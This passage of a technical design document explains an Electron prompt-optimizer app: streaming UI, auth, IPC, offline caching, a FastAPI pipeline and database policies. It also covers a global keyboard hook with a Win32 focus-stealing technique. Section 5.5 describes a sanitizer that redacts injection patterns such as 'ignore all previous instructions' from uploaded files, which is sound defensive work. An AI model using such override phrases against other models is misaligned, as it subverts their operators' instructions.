2. **Local `useState` in `Index.tsx`**: All chat data, library data, and UI state lives in `Index.tsx`. Child components receive data and callbacks as props. This means `Index.tsx` is large (~1400 lines) but there is a single source of truth for every piece of application state.

3. **IPC events as the state source**: The Electron main process is the authoritative state source. The renderer requests data (`loadChats`, `loadMessages`), receives responses as events (`onChatsLoaded`, `onMessagesLoaded`), and sends mutations (`sendMessage`, `renameChat`). The main process responds with events that update renderer state.

**Why no global store?** The IPC event model already provides unidirectional data flow: renderer sends a request → main process does work → main process sends an event back → renderer updates state. Adding Redux on top of this would create a second layer of indirection with no benefit — the main process is already acting as the "store."

**The ref pattern**: A critical implementation detail is the extensive use of `useRef` to mirror state. For example:

```typescript
const [selectedChatId, setSelectedChatId] = useState<string | null>(null);
const selectedChatIdRef = useRef<string | null>(null);
useEffect(() => { selectedChatIdRef.current = selectedChatId; }, [selectedChatId]);
```

This pattern exists because IPC event handlers are registered once (in `useEffect([], [])`) but need access to current state values. Without the ref, the handler closure captures the initial state value and never sees updates. The ref provides a stable reference to the latest value. This is the same pattern VS Code uses in its extension host IPC — register once, read current state via refs.

**Tradeoff**: The ref-mirroring pattern is error-prone. If a developer adds new state but forgets to create a corresponding ref, IPC handlers will use stale values. A global store with selectors would avoid this, but at the cost of more boilerplate and a less direct mapping to the IPC flow.

## 3.4 Streaming Rendering: `useSmoothStreaming` Internals

The most technically interesting piece of the frontend is the `useSmoothStreaming` hook (`hooks/useSmoothStreaming.ts`, 280 lines). It implements a buffer-based typewriter animation that makes AI responses appear to stream smoothly, even when chunks arrive irregularly.

**The problem it solves**: LLM streaming produces chunks of text at variable rates — sometimes 5 characters every 50ms, sometimes 200 characters after a 2-second pause. Rendering each chunk directly causes visual jitter: the text "jumps" on screen. The user experience is far better when text appears at a consistent, smooth rate.

**How it works**:

1. **Dual-buffer architecture**: `streamBuffer` holds the full accumulated text from the backend. `visualText` holds what the user currently sees. The animation loop advances `visualText` toward `streamBuffer` at a controlled rate.

2. **Startup delay**: When streaming begins, `startTimestamp` is set to `performance.now() + 1000`. The animation loop does nothing until this timestamp is reached AND the buffer has at least 15 characters. This 1-second delay allows the buffer to fill before animation starts, preventing a "stutter-start" where the first few characters appear and then pause while waiting for the next chunk.

3. **Adaptive speed**: The number of characters added per animation frame depends on the lag between `visualText` and `streamBuffer`:

```typescript
let charsToAdd = 1;
if (lag > 200) charsToAdd = 10;      // Very fast catchup
else if (lag > 100) charsToAdd = 5;   // Fast catchup
else if (lag > 40) charsToAdd = 3;    // Moderate catchup
else if (lag > 10) charsToAdd = 2;    // Slight catchup
```

When the buffer is far ahead (lag > 200), the animation speeds up to prevent the typewriter from falling too far behind. When the buffer is nearly caught up (lag < 10), it slows to 1 character per frame for maximum smoothness.

4. **Frame rate cap**: The animation loop runs at `requestAnimationFrame` speed (~60fps) but only updates the DOM every 33ms (~30fps). This reduces React re-render overhead by half while maintaining visual smoothness.

5. **Visibility handling**: When the user switches tabs or minimizes the window, Chromium throttles `requestAnimationFrame` to ~1fps. Without intervention, the `streamBuffer` would fill while `visualText` stalls, causing a "replay" effect when the user returns. The hook listens for `visibilitychange` events and immediately flushes `visualText` to match `streamBuffer` when the page regains visibility.

6. **Generation isolation**: Each streaming session gets a unique `generationId`. If the user switches chats or stops generation, the `generationId` increments, and any in-flight animation loop detects the mismatch and exits. This prevents a response from chat A from appearing in chat B.

7. **Stop behavior**: When the user clicks Stop, `stopStreaming()` immediately sets `startTimestamp = 0` (skip startup delay) and flushes the current buffer to the screen. The animation loop continues running and will finalize when `handleFinalMessage` is called with the partial result from the aborted stream.

**Overlay comparison**: The overlay does NOT use `useSmoothStreaming`. It renders `streamingContent` directly from the `accumulated` field of each `onOptimizationChunk` event. This means overlay text appears at the raw chunk rate with no smoothing. The design decision is intentional: the overlay is for quick optimization, not sustained reading, so the engineering cost of the typewriter effect wasn't justified.

## 3.5 Auth Flow: From Renderer to Session

Authentication in the main app follows a state machine pattern managed by `AuthWrapper`:

```
States: loading → login | signup | onboarding | app
```

1. **Initial load** (`loading`): `AuthWrapper` calls `window.electronAPI.checkAuth()`. The main process calls `checkAndRestoreSession()`, which attempts to refresh the Supabase session from the stored refresh token.

2. **Session found**: Main process sends `auth:state-changed` with `isAuthenticated: true` and the full `CompleteUserData` (profile + preferences + identities). `AuthWrapper` checks if the account was created within the last 2 minutes AND has no `onboarding-completed-{userId}` localStorage key. If both conditions are true → `onboarding`. Otherwise → `app`.

3. **No session**: `AuthWrapper` shows `LoginPage`. The user can sign in with email/password, OAuth (Google), or navigate to `SignupPage` for OTP-based registration.

4. **OAuth flow**: `signInWithOAuth('google')` calls the main process, which starts a localhost HTTP server (port 54321) to receive the OAuth callback. The Supabase SDK opens the browser for Google login. After consent, Google redirects to `http://localhost:54321/auth/callback?code=...`. The main process exchanges the code for a session and sends `auth:state-changed` to the renderer.

5. **Token refresh**: The main process listens for `TOKEN_REFRESHED` events from Supabase's `onAuthStateChange` and updates `authState.currentAccessToken`. This triggers `pythonClient.reconnect()` to re-establish the WebSocket with the new token.

6. **Offline sign-out suppression**: If the network monitor reports offline and Supabase fires `SIGNED_OUT` (due to a failed token refresh), the main process ignores it. This prevents spurious logouts when the user's internet drops momentarily.

## 3.6 Overlay Architecture

The overlay is architecturally simpler than the main app but has several unique technical challenges:

**Window management**: The `OverlayWindowManager` (`electron/main/overlay/overlay-window-manager.ts`) uses a "park off-screen" pattern instead of `show()`/`hide()` calls. The problem: on Windows, calling `BrowserWindow.show()` on a transparent, frameless window triggers a DWM compositor transition animation that briefly shows a faded "ghost" first-frame. The solution: the window is created once, pre-heated by calling `showInactive()` while positioned at `(-9999, -9999)`, and then "opened" by moving it to the cursor position. "Closing" moves it back off-screen. The window is never actually hidden, so DWM never re-initializes the alpha surface.

**Cursor positioning**: `positionNearCursor()` places the overlay near the mouse cursor with smart clamping to screen bounds. If the overlay would overflow the right edge, it flips to the left side of the cursor. Same for bottom edge.

**Win32 focus stealing**: On Windows, applications cannot normally steal focus from the foreground window. The overlay uses `forceFocusWindow()` from the Rust native bridge, which calls `AttachThreadInput` + `AllowSetForegroundWindow` + `SetForegroundWindow` — a Win32 technique that bypasses the foreground lock.

**Turn-based state model**: The overlay uses `useTurns()` instead of a flat message array. Each "turn" has user versions (for edits) and assistant versions (for regenerations). This enables the version navigator UI showing "Version 1 of 3" for each turn.

## 3.7 Offline UX Patterns

The frontend handles offline scenarios at multiple levels:

1. **Network status banner**: `isOnline` state is driven by `onNetworkStatus` IPC events. When offline, the main app shows degraded UI (send button disabled for new chats, queuing indicator for existing chats).

2. **Message queuing**: If the user sends a text-only message to an existing chat while offline, the main process queues it in `offlineQueue` and sends `send-message-queued` to the renderer. The renderer shows an inline toast: "Your message has been queued."

3. **File rejection**: File attachments cannot be sent offline (they require Supabase Storage upload). The main process rejects them immediately with `message-send-error`.

4. **Cache-first data**: When chats and messages are loaded, the main process writes them to `localCache` (a per-user JSON file). On next load, if the network is unavailable, the cache provides the last-known state.

5. **Reconnection sync**: When `onNetworkReconnected` fires, the main process drains the offline queue (`syncOfflineQueue` for library operations, `syncChatMessageQueue` for messages). The renderer receives `offline-message-synced` events as each queued message is successfully sent.

## 3.8 Theming and Styling

Theming is implemented as a synchronous `localStorage`-first pattern:

1. **Before React mounts**: `main.tsx` runs `applyStoredTheme()` synchronously. This reads `localStorage('prompt-weaver-settings')`, parses the theme, and adds/removes the `dark` class on `<html>`. Because the `BrowserWindow` is created with `show: false`, this always completes before the user sees any content. There is no FOUC (flash of unstyled content).

2. **After auth**: `useInitializeSettings` loads the full settings from Supabase via `electronAPI.loadSettings()` and calls `applySettings()` which sets the `dark` class, root `fontSize`, and `fontFamily` CSS properties.

3. **Settings changes**: When the user changes theme/font in `SettingsView`, the renderer calls `electronAPI.saveSettings()` (persists to Supabase), stores in `localStorage` (for next-launch sync), and applies immediately via `applySettings()`.

4. **Overlay sync**: When settings change, the main process sends `overlay:settings-update` to the overlay window, which calls its own `applySettings()`.

The dark mode implementation uses Tailwind's `dark:` variant, which is driven by the `dark` class on `<html>`. This is the "class strategy" (not `prefers-color-scheme` media query), which gives programmatic control over the theme.

---

# Part 4: Backend Deep Dive — Electron Main Process

The Electron main process (`electron/main/index-new.ts` and its 48 supporting modules) is the central orchestrator. It has no UI of its own — its job is to coordinate the renderer windows, the Python service, Supabase, the native bridge, and the local persistence layer.

## 4.1 Startup Sequence and Lifecycle Invariants

The boot sequence in `index-new.ts` follows a strict ordering that prevents race conditions:

1. **Environment loading**: `dotenv.config()` loads `.env` from the project root (dev) or `process.resourcesPath` (packaged). This must happen before any module reads `process.env`.

2. **Sentry initialization**: `Sentry.init()` with PII scrubbing. This must happen before any code that might throw, so errors during boot are captured.

3. **CSP installation**: `installCSP()` sets Content-Security-Policy headers via `session.defaultSession.webRequest.onHeadersReceived`. This must happen before any window loads HTML.

4. **Supabase initialization**: `SupabaseClientManager.initialize(url, key)` creates the singleton client. Must happen before any service is instantiated.

5. **Manager/client creation**: `AppWindowManager`, `OverlayWindowManager`, `PythonClient`, `TranscriptionClient` are instantiated but NO windows are loaded yet.

6. **IPC handler registration**: ALL `register*Handlers()` functions are called. This is the critical invariant — handlers must be registered BEFORE `preload()` because the renderer's preload script fires IPC calls (like `overlay:get-settings`, `skills:list`) immediately on load. If handlers aren't registered, these calls fail silently.

7. **Window preload**: `appWindowManager.preload()` and `overlayManager.preload()` create the BrowserWindows and load their HTML. At this point, the renderer's preload script runs and IPC calls begin.

8. **Background tasks**: Python health check, network monitor, keystroke detection, global hotkey, system tray, and auto-updater start. These are non-blocking and run after the UI is visible.

9. **Session restore**: `checkAndRestoreSession()` runs asynchronously. The main window shows a loading spinner while this resolves. When it completes, `auth:state-changed` fires and the renderer transitions to the app view.

The key invariant: **IPC handlers before window preload**. Violating this causes a class of bugs where the renderer's first IPC call returns `undefined` because no handler exists yet. This manifests as the overlay showing stale settings or the skill list being empty on first open.

## 4.2 IPC Handler Architecture

The IPC layer is organized into 12 handler modules, each responsible for a domain:

| Module | Registration | Key Channels | Dependencies |
|--------|-------------|-------------|-------------|
| `auth-handlers.ts` | `registerAuthHandlers(appWindowManager)` | `auth:check`, `auth:sign-in`, `auth:sign-out`, `auth:oauth`, `auth:signup-otp`, `auth:reset-otp` | AuthService, UserService, Supabase admin |
| `user-handlers.ts` | `registerUserHandlers(appWindowManager)` | `user:profile`, `user:update`, `user:preferences`, `user:memory-*` | UserService, MemoryService, SettingsService |
| `settings-handlers.ts` | `registerSettingsHandlers(overlayManager)` | `settings:load`, `settings:save` | SettingsService, localCache |
| `chat-handlers.ts` | `registerChatHandlers(appWindowManager, pythonClient)` | `app:send-message`, `app:load-chats`, `app:load-messages`, `app:rename-chat`, `app:delete-chat`, `app:regenerate`, `app:stop-generation`, `app:get-generation-status` | ChatService, OptimizationService, PythonClient, MemoryAnalyzer |
| `overlay-ipc-handlers.ts` | `registerOverlayHandlers(overlayManager, pythonClient, appWindowManager)` | `overlay:optimize`, `overlay:save`, `overlay:copy`, `overlay:insert`, `overlay:close`, `overlay:open-app`, `overlay:check-auth`, `overlay:get-settings`, `overlay:get-collections` | Overlay window, PythonClient, native-bridge |
| `prompt-library-handlers.ts` | Auto-registers on import | `prompt-library:get-all`, `prompt-library:save`, `prompt-library:delete`, `prompt-library:create-collection`, `prompt-library:share-*` | PromptLibraryService, offlineQueue |
| `skill-handlers.ts` | `registerSkillHandlers()` | `skills:list` | filesystem (reads `files/skill_*.md`) |
| `avatar-handlers.ts` | `registerAvatarHandlers(pythonClient)` | `avatar:upload` | PythonClient (Cloudinary proxy) |
| `file-upload-service.ts` | `registerFileUploadHandlers()` | `file:upload-pdf`, `file:get-signed-url`, `file:open-pdf` | Supabase Storage |
| `feedback-handlers.ts` | `registerFeedbackHandlers()` | `feedback:submit` | Supabase (direct insert) |
| `deletion-handlers.ts` | `registerDeletionHandlers()` | `deletion:request`, `deletion:cancel`, `deletion:status` | DeletionService |
| Inline in `index-new.ts` | Directly in `initialize()` | `transcription:start`, `transcription:stop`, `transcription:audio-chunk`, `window:minimize/maximize/close`, `update:install`, `shell:openExternal` | TranscriptionClient |

**Two IPC patterns are used**:

1. **`ipcMain.handle(channel, handler)`** — Request/response. The renderer calls `ipcRenderer.invoke(channel, data)` and awaits a return value. Used for queries like `settings:load`, `skills:list`, `prompt-library:get-all`.

2. **`ipcMain.on(channel, handler)`** — Fire-and-forget. The renderer calls `ipcRenderer.send(channel, data)` and the main process responds by sending events back via `appWindowManager.send(responseChannel, data)`. Used for the chat flow (`app:send-message` → `message-sent` → `optimization-chunk` → `message-received`) where the response is asynchronous and multi-part.

The fire-and-forget pattern is essential for streaming: the renderer sends `app:send-message` once, and then receives N `optimization-chunk` events followed by one `message-received` event. This cannot be modeled as a single invoke/return.

## 4.3 Service Layer

The `database/services/` directory contains 10 service classes that wrap Supabase SDK calls. Each service maps to one or more database tables:

| Service | Tables | Key Methods |
|---------|--------|------------|
| `AuthService` | `auth.users` | `signUp`, `signIn`, `signOut`, `refreshSession`, `signInWithOAuth`, `getIdentities`, `linkIdentity` |
| `UserService` | `profiles`, `user_preferences`, `user_full_profile` view | `getProfile`, `updateProfile`, `getPreferences`, `updatePreferences`, `ensureProfileExists`, `deleteAccount` |
| `ChatService` | `chats`, `messages` | `createChat`, `getChats`, `addMessage`, `updateMessage`, `getMessages`, `renameChat`, `deleteChat`, `saveFeedback` |
| `OptimizationService` | `prompt_optimizations`, `prompt_versions` | `saveOptimization`, `saveVersion`, `getVersions` |
| `SettingsService` | `user_settings` | `loadSettings`, `saveSettings` |
| `PromptLibraryService` | `prompt_collections`, `saved_prompts` | Full CRUD, share token generation, collection forking |
| `MemoryService` | `user_memory` | `getAll`, `upsert`, `delete`, `buildContextString` |
| `MemoryAnalyzer` | (orchestrator) | `analyzeAndStore` — calls PythonClient → MemoryService |
| `DeletionService` | `deletion_requests` | `requestDeletion`, `cancelDeletion`, `getStatus` |
| `RateLimitService` | `usage_events` (count query) | `checkDailyLimit`, `DAILY_MESSAGE_LIMIT` |

Services are lazily instantiated — `getServices()` in `chat-handlers.ts` creates singletons on first call. This avoids initialization failures if Supabase isn't ready when the module loads.

`UserService` has a particularly interesting method: `ensureProfileExists()`. When a user signs up via OAuth, the `handle_new_user` database trigger creates a profile row. But there's a race condition: the trigger runs asynchronously, and the Electron app's `checkAndRestoreSession()` may query the profile before the trigger completes. `ensureProfileExists()` retries the profile query with exponential backoff (up to 3 attempts) and creates a "zombie" profile if the trigger never fired. This is a defensive workaround for a Supabase timing issue.

## 4.4 PythonClient: WebSocket Multiplexer

The `PythonClient` class (`api/python-client.ts`) manages a single persistent WebSocket connection to the Python service at `/ws/optimize-stream`. All streaming optimization requests are multiplexed over this one connection using `request_id` correlation.

**Connection lifecycle**:

1. **Initial connect**: `connectWithRetry()` attempts to connect with exponential backoff: delays of [2s, 4s, 8s, 15s, 20s], with a total elapsed time cap of 90 seconds. This accommodates Render.com cold starts (30-50s).

2. **Message routing**: When a WebSocket message arrives, the `request_id` field is used to look up the corresponding `StreamRequest` in the `activeRequests` map. If the message has no `request_id` and there's exactly one active request, it falls back to that one (backward compatibility).

3. **Chunk handling**: `type: 'chunk'` messages call `onChunk(content, accumulated)` on the stream request. The accumulated text is tracked in the request object for partial resolution.

4. **Completion**: `type: 'complete'` messages resolve the stream request's promise with `{ text, models }`.

5. **Silence detection**: If 3.5 seconds pass after the first chunk with no new chunks, the request auto-resolves with the accumulated text. This handles the case where the Python server sends all chunks but the `complete` message is lost.

6. **Hard timeout**: 90 seconds after the request starts, it auto-resolves with whatever has accumulated (or rejects if nothing). This prevents requests from hanging indefinitely.

7. **Partial resolution on close**: If the WebSocket closes while requests are active, any request with accumulated text resolves with that text rather than rejecting. The user sees a partial response rather than an error.

8. **Abort**: `abortLatestStream()` marks the latest request as aborted, resolves it with partial text, and sends `{ type: 'abort', request_id }` to the server. The `abortedRequestIds` set suppresses noisy warnings from late-arriving chunks for 30 seconds after abort.

9. **Token refresh**: When the auth token is refreshed, `reconnect()` closes the existing WebSocket and `connect()` opens a new one with the updated token. The new token is passed as `?token=` in the WebSocket URL.

**Why a single WebSocket**: Multiple concurrent connections would waste server resources (each WebSocket holds a thread on the Python side). The multiplexing approach — one connection, many request IDs — is the same pattern used by HTTP/2 multiplexing and gRPC streams.

## 4.5 TranscriptionClient

The `TranscriptionClient` is simpler than `PythonClient` — it manages **one session at a time** with no multiplexing. Each recording session opens a new WebSocket to `/ws/transcribe-stream`.

**Session lifecycle**: `startSession()` opens a WebSocket, sends `{action: 'start', session_id, sample_rate}`, then enters the audio forwarding phase. `sendAudioChunk()` forwards raw audio buffers. `stopSession()` sends `{action: 'stop'}`, waits 1.5 seconds for final transcription results, then force-closes.

**Pending chunk buffer**: Audio chunks may arrive before the WebSocket is fully open. They are buffered in `pendingChunks` and flushed once `sessionReady` becomes true. This prevents audio data loss during WebSocket handshake.

## 4.6 Local Resilience: Offline Queue and Cache

**OfflineQueue** (`database/offline-queue.ts`): A persistent FIFO queue stored as `{userData}/offline-queue.json`. It supports 11 operation types: prompt library CRUD, chat rename/delete, and text-only message sends. Each queued operation has a UUID, type, payload, timestamp, and retry count.

The queue is drained by two sync functions:
- `syncOfflineQueue()` (prompt library operations): iterates through queued operations, applies each one via `PromptLibraryService`, removes on success, increments retry count on failure.
- `syncChatMessageQueue()` (chat messages): replays queued messages through the full send pipeline including AI optimization.

Both are triggered by `networkMonitor`'s reconnection callback.

**LocalCache** (`database/local-cache.ts`): A per-user JSON file at `{userData}/offline-cache/{userId}.json`. It caches collections, prompts, chats, messages (keyed by chatId), settings, and avatar data. The cache is updated after every successful Supabase read and used as a fallback when Supabase is unreachable.

The cache uses lazy directory initialization — `app.getPath('userData')` is only called when the first read/write occurs, not at module import time. This prevents errors if the cache is imported before `app.isReady()`.

**Design tradeoff**: The cache is not a proper sync engine. It has no conflict resolution — the last write wins. If the user makes changes on two devices, the cache from the last-used device overwrites the other. For a single-device desktop app, this is acceptable. For multi-device sync, a CRDT or operational transform approach would be needed.

## 4.7 Native Bridge and Text Replacement

The native bridge (`utils/native-bridge.ts`) provides a lazy-loading wrapper around the Rust N-API module. The key design pattern is the **stub fallback**: if the `.node` binary is not found (e.g., developer hasn't run `npm run native:build`, or running on non-Windows), all functions return no-ops with console warnings. The app continues to work without the keyboard hook — the overlay can still be opened via Ctrl+5 or the system tray.

**Text replacement flow** (when triggered by `@prompt`):

1. User types `@prompt` in any application (e.g., Word, Chrome, Slack)
2. The Rust keyboard hook detects the trigger sequence and fires the callback with a `TriggerAnchor` containing the target window's HWND and trigger length (7 characters)
3. The main process opens the overlay via `overlayManager.open()`
4. User writes/optimizes their prompt in the overlay
5. User clicks "Insert" — the renderer sends `overlay:insert` via IPC
6. The main process calls `replaceAtLastAnchor(optimizedText)` on the native bridge
7. The Rust module: focuses the original window (via `SetForegroundWindow`), selects the `@prompt` text (Shift+Left × 7), and types the replacement text using `KEYEVENTF_UNICODE` keystroke injection
8. The overlay closes (parks off-screen)

The fallback when the native bridge is unavailable: the main process copies the text to the clipboard and sends Ctrl+V to the foreground window. This works in most applications but doesn't delete the original `@prompt` text.

## 4.8 Analytics and Event Buffering

The `AnalyticsService` tracks app sessions (`app_sessions` table) and usage events (`usage_events` table). It follows a strict "never throw" policy — every public method is wrapped in try/catch to prevent analytics from breaking the user-facing app.

The `EventBuffer` accumulates events in memory and flushes them to Supabase as a batch INSERT every 10 seconds or when 50 events accumulate (whichever comes first). If the flush fails (offline), events are written to `{userData}/offline-cache/analytics-{userId}.json` and retried on the next flush cycle.

Session lifecycle: `startSession()` inserts a row in `app_sessions` on app launch. `endSession()` updates the row with `ended_at` and session duration. `shutdown()` (called during `app.on('before-quit')`) flushes the event buffer and ends the session before Sentry flushes.

## 4.9 Network Monitor

The `NetworkMonitor` (`utils/network-monitor.ts`) polls `Electron.net.isOnline` every 10 seconds and broadcasts status changes to all windows via IPC. When transitioning from offline to online, it fires a reconnection callback that triggers offline queue draining.

A critical edge case it handles: Supabase's `onAuthStateChange` fires `SIGNED_OUT` when a token refresh fails. On a flaky network, this would cause spurious logouts. The main process checks `networkMonitor.isOnline` before processing `SIGNED_OUT` events and ignores them when offline. This prevents the user from being logged out due to a momentary network glitch.

---

# Part 5: Python AI Service Deep Dive

The Python service (`python-service/app/main.py` + `pipeline_v2/`) is a FastAPI application that handles all AI-related operations: prompt optimization, title generation, memory extraction, transcription, and image upload.

## 5.1 Application Structure and Middleware Stack

The middleware stack is applied in this order (outermost first):

1. **RequestIDMiddleware**: Propagates or generates `X-Request-ID` headers for request tracing.
2. **SlowAPIMiddleware**: IP-based rate limiting (60/min per IP, 200/min application-wide). Health and root endpoints are exempt.
3. **CORSMiddleware**: Allows requests from `ALLOWED_ORIGINS` (defaults to localhost). In production, this is set to the Electron app's origin.

**Lazy loading**: Heavy dependencies (litellm, tiktoken, PyMuPDF, numpy, faster-whisper) are not imported at module level. Instead, `_ensure_pipeline()` loads them on first use. This allows the server to bind its port and pass health checks within seconds, even though the full pipeline takes 5-10 seconds to initialize. The `startup_event` kicks off `_background_warmup()` to pre-load in the background.

The warmup sequence runs three tasks concurrently:
1. Load the pipeline and send a 1-token warmup request to OpenRouter (establishes the HTTPS connection pool)
2. Load the faster-whisper model (if torch is installed)
3. Load the Silero VAD model (if torch is installed)

If torch is not installed, whisper/VAD warmup is skipped — the service operates in "Deepgram-only" transcription mode.

## 5.2 Authentication: JWT Verification

The `auth.py` module implements a dual-algorithm JWT verification strategy:

1. **ES256 via JWKS** (primary): Fetches the signing key from `{SUPABASE_URL}/auth/v1/.well-known/jwks.json` using `PyJWKClient` with key caching. This is the modern Supabase default.

2. **HS256 via shared secret** (fallback): If JWKS verification fails (e.g., JWKS endpoint unreachable), falls back to verifying with `SUPABASE_JWT_SECRET`.

Both paths verify `audience: "authenticated"` and check token expiry. The fallback is important because the JWKS endpoint is an external HTTP call — if Supabase has a brief outage, the Python service can still verify tokens using the shared secret.

In development mode (`APP_ENV=development`), if neither `SUPABASE_URL` nor `SUPABASE_JWT_SECRET` is set, auth is disabled entirely and all endpoints receive a stub payload `{"sub": "dev-user"}`. In production, missing credentials cause a fatal `SystemExit(1)`.

WebSocket auth uses query parameter `?token=<access_token>` instead of headers because the WebSocket protocol doesn't support custom headers during the handshake in all clients.

## 5.3 The Optimization Pipeline: Fast Mode vs Thinking Mode

The pipeline entry point is `pipeline_v2/optimizer.py:optimize()`. It branches based on the `mode` parameter:



### Fast Mode

Fast mode is designed for quick, category-specific optimization. It detects the prompt type (coding, email, analysis, creative, image, documentation, business, or general) using keyword matching in `fast_mode.py:detect_prompt_type()`. The `_APP_BUILD_PATTERN` regex catches "build me an app" style prompts as coding. Each category has a specialized strategy string that instructs the LLM how to optimize that type of prompt.

Fast mode does NOT load skill files, does NOT load the full `system_prompt_optimizer.md`, and does NOT run the context summarizer. It uses the last 6 messages from `ChatContext` directly. This makes it significantly faster (one LLM call vs potentially two) and cheaper (shorter system prompt).

### Thinking Mode

Thinking mode is the full pipeline:

1. **Load system prompt**: `system_prompt_optimizer.md` from the `files/` directory. This is a long, detailed instruction set that tells the LLM how to classify input (NEW/REFINEMENT/ADDITION), apply skills, and format output.

2. **Skill selection**: If `forced_skill` is provided, load that skill file directly. Otherwise, `select_skills()` scores each skill category by counting keyword matches in the user input. The top 2 categories with score > 0 are selected; if none match, `["general"]` is used. Skill files are loaded from `files/skill_{name}.md` and cached with `@lru_cache(maxsize=16)`.

3. **Context compaction**: If `ChatContext.token_estimate()` exceeds 3000 tokens (the `SUMMARIZE_THRESHOLD`), the summarizer is invoked. `summarize_context()` sends the full conversation history to the `SUMMARIZER_MODEL` (defaults to `gpt-4o-mini`) with `system_prompt_summarizer.md`. The resulting summary replaces all but the 4 most recent messages via `compact_with_summary()`. This reduces the token count from potentially thousands to a few hundred, keeping costs under control for long conversations.

4. **User prompt assembly**: The final user message includes the chat context text, loaded skill names and content, and the user's request with any file context prepended.

5. **Regeneration**: If `previous_output` is provided, an instruction block is appended telling the LLM to produce a "DISTINCTLY DIFFERENT optimization" that uses "a different structural approach, angle, or framing." The temperature is also raised from 0.7 to 0.95 to increase output diversity.

## 5.4 Token Budgeting and Cost Analysis

Token management happens at two levels:

1. **Context level**: `ChatContext.token_estimate()` uses `tiktoken`'s `cl100k_base` encoder (GPT-4/Claude compatible) for accurate counting. Falls back to `len(text) // 4` if tiktoken is unavailable. The compaction threshold of 3000 tokens means contexts beyond ~2250 words trigger summarization.

2. **File level**: `document_parser.py` caps extracted text at 8000 tokens (~32,000 chars) via `sanitize_extracted_text()`. This prevents a large PDF from consuming the entire context window.

3. **Output level**: `max_tokens=8192` caps the LLM response. For streaming, `stream_options={"include_usage": True}` ensures the final chunk includes usage statistics.

**Cost tracking**: `usage_logger.py` appends JSONL records to `pipeline_v2/storage/usage/YYYY-MM-DD.jsonl`. Each record includes model, tokens (prompt/completion/total), latency, skills used, and computed cost in USD using a hardcoded price table. The logger is completely silent — it never writes to stdout and never raises exceptions.

The cost per optimization depends on the path:
- **Fast mode**: One LLM call, ~500-1500 prompt tokens + 500-2000 completion tokens. At gpt-4o-mini rates ($0.15/1M input, $0.60/1M output): ~$0.0002-0.001 per request.
- **Thinking mode without compaction**: One LLM call, ~2000-5000 prompt tokens. ~$0.001-0.003 per request.
- **Thinking mode with compaction**: Two LLM calls (summarizer + optimizer). The summarizer adds ~$0.0001-0.0005. Total: ~$0.002-0.005.

## 5.5 Document Parsing and Multimodal Support

The `document_parser.py` module processes file attachments with a defense-in-depth security approach:

1. **MIME validation**: Only `application/pdf`, `image/png`, `image/jpeg`, `image/webp`, and `image/gif` are allowed.
2. **Magic byte validation**: Each file's raw bytes are checked against known magic byte signatures. A file claiming to be a PDF but starting with `<html>` is rejected.
3. **Size limit**: 10 MB per file hard limit.
4. **Prompt injection sanitization**: Extracted text is scanned for patterns like "ignore all previous instructions", "system:", `<|im_start|>`, etc. These are replaced with `[REDACTED]`.
5. **Token cap**: 8000 tokens maximum per file's extracted text.

**PDF processing**: Uses PyMuPDF (`fitz`) to extract text page-by-page. Pages that fail to parse are skipped rather than crashing the pipeline. The extracted text is sanitized and truncated.

**Image processing**: If the optimizer model supports vision (checked against `VISION_MODELS` set in `optimizer.py`), images are passed as OpenAI-style `image_url` content parts with `detail: high`. GIF images are normalized to PNG first (GIF support varies across providers). If the model doesn't support vision, Pillow extracts basic metadata (dimensions, format, mode) as fallback text context.

The output is a tuple `(text_context, vision_parts)` that the optimizer merges into the user message.

## 5.6 WebSocket Streaming: Thread-to-Async Bridge

The streaming implementation in `/ws/optimize-stream` solves a fundamental impedance mismatch: `litellm.completion(stream=True)` returns a blocking Python generator, but the WebSocket handler must be async to interleave with other connections.

The solution uses a thread-to-async bridge:

1. A Python thread runs `pipeline_optimize(..., stream=True)` in a thread pool via `loop.run_in_executor(None, run_stream)`.
2. The thread pushes each chunk to an `asyncio.Queue` using `loop.call_soon_threadsafe(chunk_queue.put_nowait, chunk)`.
3. The async WebSocket handler awaits `chunk_queue.get()` and forwards each chunk to the client.
4. A `None` sentinel in the queue signals stream completion.
5. `await thread_future` propagates any exceptions from the thread.

This pattern is critical because:
- The async event loop stays free to handle other WebSocket messages and health checks while the blocking LLM call runs.
- The `_optimize_semaphore` (default: 50 concurrent) limits the number of simultaneous thread pool tasks, preventing thread exhaustion.
- Each chunk is forwarded as a JSON message with `type: 'chunk'`, `content` (just the delta), and `accumulated` (full text so far). The accumulated field allows the client to recover from missed chunks.

**Rate limiting on WebSocket**: `_check_rate_limit(user_id)` enforces a daily cap (`DAILY_REQUEST_LIMIT`, default 50) per user, tracked in an in-memory dict with daily cleanup. This is separate from the per-IP rate limiting that SlowAPI applies to HTTP endpoints.

## 5.7 Transcription: Deepgram Relay

The `/ws/transcribe-stream` endpoint implements a relay architecture between the Electron client and Deepgram's real-time transcription API:

1. Client sends `{action: 'start', session_id, sample_rate}`.
2. The server connects to `wss://api.deepgram.com/v1/listen?model=nova-2&...` with the server's `DEEPGRAM_API_KEY`.
3. `_deepgram_relay()` runs as an async task, reading messages from Deepgram and forwarding transcription results to the client.
4. Binary audio chunks from the client are forwarded directly to Deepgram.
5. On `{action: 'stop'}`, the server sends Deepgram's `CloseStream` bytes and accumulates the final transcription.

The relay pattern is used because the Deepgram API key cannot be exposed to the client. The server acts as an authenticated proxy, adding its API key to the Deepgram connection.

## 5.8 Memory Extraction

The `/extract-memory-facts` endpoint uses an LLM to extract structured facts about the user from their prompts. The system prompt (`MEMORY_EXTRACTION_SYSTEM_PROMPT`) instructs the LLM to return a JSON array of `{category, key, value, confidence}` objects.

Categories are: `user` (identity/role/domain), `behavioral` (writing style/preferences), `context` (recurring topics/tools). Confidence is capped at 0.95 — only explicit user statements (not LLM inferences) should reach 1.0.

This endpoint is called fire-and-forget from the Electron main process after each optimization. If it fails, the optimization still succeeds. The extracted facts are upserted into the `user_memory` table and used as `custom_instructions` in future optimizations, creating a feedback loop where the system learns the user's preferences over time.

---

# Part 6: Database Deep Dive

## 6.1 Schema Overview

The database is PostgreSQL managed by Supabase, defined across 19 migration files. The schema evolved iteratively — the initial `users` table was dropped in migration 002 and replaced by `profiles` referencing `auth.users`.



## 6.2 RLS Policy Design Philosophy

Every table has RLS enabled. The policies follow three patterns:

**Pattern 1: Owner-only** (most tables). The user can only access rows where `user_id = auth.uid()` (or `id = auth.uid()` for profiles). Applied to: `profiles`, `user_preferences`, `chats`, `messages`, `prompt_optimizations`, `user_settings`, `user_memory`, `app_sessions`, `usage_events`.

